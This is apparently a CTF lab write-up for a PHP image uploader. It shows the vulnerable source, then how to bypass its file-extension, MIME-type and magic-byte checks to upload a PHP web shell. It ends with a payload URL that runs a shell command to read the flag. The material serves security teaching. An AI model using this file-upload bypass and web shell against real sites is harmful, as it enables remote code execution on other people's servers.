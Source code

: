 ```yaml
---
title: Simple Web 0x06(Lab - Image Space 0x03)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Upload"
---
```


# Simple Web 0x06(Lab - Image Space 0x03)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9012

## Background
[file signature](https://en.wikipedia.org/wiki/List_of_file_signatures)

## Source code
:::spoiler
```php!=
 <?php
    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        exit;
    }
?>
<h1>Image Uploader</h1>
<p>Only supports: jpg, jpeg, png</p>
<form action="index.php" method="POST" enctype="multipart/form-data">
    <input type="file" name="image_file">
    <input type="submit" value="Upload">
</form>
<p>
    <a href="/?source">View Source</a>
</p>
<?php
    if (!isset($_FILES['image_file'])) {
        die('Give me a file!');
    }

    $filename = basename($_FILES['image_file']['name']);
    $extension = strtolower(explode(".", $filename)[1]);

    if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false) {
        die("Invalid file extension: $extension.");
    }

    if (in_array($_FILES['image_file']['type'], ["image/png", "image/jpeg", "image/jpg"]) === false) {
        die("Invalid file type: " . $_SERVER["CONTENT_TYPE"]);
    }

    list($_, $_, $type) = getimagesize($_FILES['image_file']['tmp_name']);

    if ($type !== IMAGETYPE_JPEG && $type !== IMAGETYPE_PNG) {
        die("Invalid image type.");
    }

    $prefix = bin2hex(random_bytes(8));
    move_uploaded_file($_FILES['image_file']['tmp_name'], "images/${prefix}_${filename}");
    echo "<img src=\"/images/${prefix}_${filename}\">";
?>
```
:::
It has 2 extra constraint must be bypassed. Use `burpsuite` and change valid file signature
## Exploit - bypass `IMAGETYPE` + bypass `$_FILES['image_file']['type']`
1. `HxD` - bypass `IMAGETYPE`
Add valid file signature at the beginning from [wiki page](https://en.wikipedia.org/wiki/List_of_file_signatures)
png: `89 50 4E 47 0D 0A 1A 0A`
jpg: `FF D8 FF DB`
2. `burpsuite` - bypass file type
![](https://i.imgur.com/02Mh97T.png)
3. Then we got shell!!!
payload: `http://h4ck3r.quest:9012/images/353d74c11becb9b1_webshell_valid_filetype.png.php?sh=cat%20../../../../flag`